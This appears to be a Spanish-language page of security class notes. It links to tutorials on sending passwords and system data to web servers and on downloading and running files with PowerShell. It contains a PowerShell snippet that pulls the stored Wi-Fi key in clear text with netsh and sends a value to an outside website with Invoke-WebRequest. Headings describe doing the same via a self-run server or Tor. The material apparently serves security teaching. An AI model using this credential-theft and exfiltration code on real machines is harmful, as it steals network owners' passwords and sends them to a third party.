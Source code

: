 # Enviar una contraseña utilizando un servidor web
* https://www.jesusninoc.com/02/11/hacking-wifi-with-powershell/
# Formas de descargar y ejecutar ficheros desde un servidor en PowerShell utilizando Invoke-WebRequest
* https://www.jesusninoc.com/05/26/formas-de-descargar-y-ejecutar-ficheros-desde-un-servidor-en-powershell-utilizando-invoke-webrequest/
# Uncover Tiny URLs
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-03-08.md
# Enviar informacion sobre equipos utilizando un servidor web
* https://www.jesusninoc.com/12/02/obtener-serial-de-windows-con-powershell/
* https://www.jesusninoc.com/10/21/almacenar-entradas-cache-dns-en-un-fichero/

# Enviar la contraseña de la red WIFI a una web
```PowerShell
$contra = (netsh wlan show interface | Select-String SSID)[0] | %{
[String]$SSID=$_
$SSID=$SSID.replace("SSID","").replace(":","").trim()
$SSID
netsh wlan show profile name=$SSID key=clear | Select-String 'Contenido de la clave'
}

$contra="jlajsdf"
Invoke-WebRequest ("http://www.jesusninoc.com/"+$contra)
```

# Enviar la contraseña de la red WIFI a una web, creando tú mismo un servidor web

# Enviar la contraseña de la red WIFI a una web, creando tú mismo un servidor web en la red Tor
